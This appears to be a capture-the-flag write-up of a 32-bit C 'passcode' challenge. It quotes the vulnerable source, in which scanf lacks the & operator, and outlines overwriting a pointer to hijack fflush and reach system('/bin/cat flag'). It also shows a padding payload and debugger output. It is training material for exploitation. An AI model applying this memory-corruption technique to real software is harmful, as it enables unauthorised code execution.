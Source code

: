 ```c
        printf("Welcome %s!\n", name);
}

int main(){
        printf("Toddler's Secure Login System 1.0 beta.\n");

        welcome();
        login();

        // something after login...
        printf("Now I can safely trust you that you have credential :)\n");
        return 0;
}
```

The first interesting thing to note, is that scanf isn't being used normally, the & signs are missing to indicate the address.

```c
        scanf("%d", passcode1);
        fflush(stdin);

        // ha! mommy told me that 32bit is vulnerable to bruteforcing :)
        printf("enter passcode2 : ");
        scanf("%d", passcode2);
```

So, our plan of attack:

1. from our input to `scanf("%100s", name);` we can edit the value of passcode1 to the address of the fflush function.

2. When `scanf("%d", passcode1);` is called, we can edit fflush to point somewhere else.

3. We'll point it to the line `system("/bin/cat flag");`

To compile the 32-bit code I had to install `lib32-glibc` and `lib32-gcc-libs`, then use the `-m32` flag for gcc.

I found that the address of `passcode1` is at `ebp - 0x10`.

So we can send something like this to change passcode1 to whatever we like:

```python
>>> 'A'*96 + 'BBBB'
'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB'
```

```
pwndbg> break login
Toddler's Secure Login System 1.0 beta.                                      
enter you name : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
pwndbg> x $ebp-0x10
0xffffd618:     0x42424242
```
